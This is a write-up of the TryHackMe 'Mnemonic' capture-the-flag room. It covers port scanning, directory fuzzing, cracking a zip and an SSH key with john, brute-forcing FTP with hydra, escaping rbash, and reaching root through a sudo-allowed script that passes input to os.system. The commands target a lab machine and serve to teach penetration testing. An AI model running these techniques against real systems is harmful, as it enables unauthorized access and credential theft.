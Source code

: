```yaml
---
layout: post
title: Mnemonic
date: 2020-10-1 00:00:01 +5:30
categories: [TryHackMe, Medium]
tags: [osint, dirbust, code-analysis] # add tag
image: /assets/img/mnemonic/mnem.png
---
```


## Description

The Following Post is writeup of mnemonic room of tryhackme <https://tryhackme.com/room/mnemonic>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | [villwocki](https://tryhackme.com/p/villwocki)

## Summary

This room has 3 ports open 21, 80 and 1337. On dirbusting port 80 we will get user backups which contains info about ftp. Bruteforcing it will get us into ftp and there we will get id_rsa of one user.
Logging as that user in ssh at port 1337 get into rbash shell which can be bypassed and we can read dir of another user. We got some strange files in user home dir and the other dir leads to an image.
OSINT with the room name leads us to a github repo which have a decoder with that we can decode the image and get password for other user. There is a code which we can use as sudo but it has one weakness using which we can execute commands as root so got root.

## Walkthrough

### Enumeration

Starting with nmap scan.
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/webmasters/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e0:42:c0:a5:7d:42:6f:00:22:f8:c7:54:aa:35:b9:dc (RSA)
|   256 23:eb:a9:9b:45:26:9c:a2:13:ab:c1:ce:07:2b:98:e0 (ECDSA)
|_  256 35:8f:cb:e2:0d:11:2c:0b:63:f2:bc:a0:34:f3:dc:49 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So 1337 have ssh server running.

#### Port80

![port80](/assets/img/mnemonic/port80.png)

![robots](/assets/img/mnemonic/robotstxt.png)

so we have robots.txt it directs us to webmasters.
For moving forward we have a way we can fuzz dir further

```bash
argenestel@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10]
backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]

So let's enum more.

 argenestel@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/backups/FUZZ.zip
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
<redacted>                [Status: 200, Size: 408, Words: 1, Lines: 9]
```

Okay i assumed  as zip. so we can download the zip and see what we can find inside it.

### Exploitation

Ahh the zip seems encrypted.
So john have script which converts zip to john hash format and john can crack that.

```bash
argenestel@parrot  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>         (backups.zip/backups/note.txt)
1g 0:00:00:02 DONE (2020-09-28 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

In zip we can see user info and get username.
Now Bruteforce the ftp pass.

```bash
argenestel@parrot  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-28 16:20:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.148.195:21/
[STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
[STATUS] 245.33 tries/min, 736 tries in 00:03h, 14343663 to do in 974:27h, 16 active
[21][ftp] host: 10.10.148.195   login: ftpuser   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-28 16:24:53
```

250 Directory successfully changed.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 3
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13 20:34 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13 21:18 not.txt

Okay the ftp gave us id_rsa and a not.txt
The ssh key have pass phrase let's crack it
Using ssh2john => hash => hash crack

Got user login.

>But there is a script running as root which will kick us out and we have rbash

Alright i saw a weird 6450.txt file(let's note it we can use it later)
I was Stuck a bit here:
  Got idea to check for mnemonic decryption ans landed on <https://github.com/MustafaTanguner/Mnemonic/>
  So it's indeed right path but i need a image.
  I checked what i can do escape the rbash?

Todo: Escape Rbash and defeat the script
 <https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/>
I checked and we can bypass rbash using vi.

so after that we can check other dir let's check condor we have access to it.

```bash
james@mnemonic:/home$ ls -la condor
ls: cannot access 'condor/..': Permission denied
ls: cannot access 'condor/'\''<redacted>=='\''': Permission denied
ls: cannot access 'condor/.gnupg': Permission denied
ls: cannot access 'condor/.bash_logout': Permission denied
ls: cannot access 'condor/.bashrc': Permission denied
ls: cannot access 'condor/.profile': Permission denied
ls: cannot access 'condor/.cache': Permission denied
ls: cannot access 'condor/.bash_history': Permission denied
ls: cannot access 'condor/.': Permission denied
ls: cannot access 'condor/<redacted>==': Permission denied
total 0
d????????? ? ? ? ?            ?  .
d????????? ? ? ? ?            ?  ..
d????????? ? ? ? ?            ? '<redacted>'
l????????? ? ? ? ?            ?  .bash_history
-????????? ? ? ? ?            ?  .bash_logout
-????????? ? ? ? ?            ?  .bashrc
d????????? ? ? ? ?            ?  .cache
d????????? ? ? ? ?            ?  .gnupg
-????????? ? ? ? ?            ?  .profile
d????????? ? ? ? ?            ? ''\''<redacted>=='\'''
```

Alright base64 and we got flag and image url.

mnemonic + image + (Some config file... Hmmmm)
okay remember we got a 6450.txt yess.

![mnemonic](/assets/img/mnemonic/condorpass.png)

Hurray got user condor.

```bash
condor@mnemonic:~$ sudo -l
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
 ```

 Looking into source code examplecode.py there is a function where we can put input.
yes in option 0
 >os.system(input(Running...))

```bash
 Select:0
are you sure you want to quit ? yes : .

Running....bash

root@mnemonic:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

I was stuck in root for few hours and doing something totally different.
